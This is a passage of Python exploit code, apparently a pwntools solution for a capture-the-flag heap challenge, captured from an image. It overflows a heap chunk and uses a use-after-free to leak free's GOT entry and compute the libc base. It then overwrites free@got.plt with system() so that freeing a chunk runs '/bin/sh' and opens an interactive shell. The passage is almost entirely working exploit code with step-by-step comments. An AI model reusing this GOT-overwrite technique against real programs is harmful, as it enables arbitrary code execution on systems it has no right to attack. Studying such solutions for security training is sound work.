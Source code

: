 ```py
        return self.p.recvuntil("choice: ")

    def delete(self, index):
        self.p.sendline("4")
        self.p.recvuntil("(0-based): ")
        self.p.sendline(str(index))
        self.p.recvuntil("choice: ")

    def exit(self):
        self.p.sendline("5")

    def leak_stack(self):
        offset="A"*24
        payload=offset+p32(self.e.symbols["printPerson"])+p32(self.e.got["free"])

        self.create(20, "A"*10, 20)
        self.create(180, "B"*10, 20)                                 # Allocate small bin
        self.create(20, "C"*10, 20)                                  # Avoid top chunk consolidation

        self.delete(1)                                               # Populate free@got.plt
        self.edit(0, 4000, payload)                                  # Heap overflow
        data=self.view(1)[6:10]                                      # UaF to Leak
        return u32(data)

    def exec_system(self, libc_base):
        offset="A"*28
        payload=offset+p32(self.e.got["free"])

        self.edit(0, 4000, payload)                                  # Overwrite name address with free@got.plt
        self.edit(1, 10, p32(libc_base+self.libc.symbols["system"])) # Overwrite free@got.plt with system()
        payload=offset+p32(libc_base+next(self.libc.search("/bin/sh\x00")))
        self.edit(0, 4000, payload)                                  # Overwrite name address with free@got.plt

        self.p.sendline("4")
        self.p.recvuntil("(0-based): ")
        self.p.sendline("1")                                         # Trigger system("/bin/sh")

        self.p.interactive()
        self.p.close()

    def pwn_binary(self):
        self.start_binary()

        libc_base=self.leak_stack()-self.libc.symbols["free"]
        log.info("Leak libc base address: "+hex(libc_base))
        self.exec_system(libc_base)


def main():
    pwn = Pwn()
    pwn.pwn_binary()


if __name__ == "__main__":
    main()
```

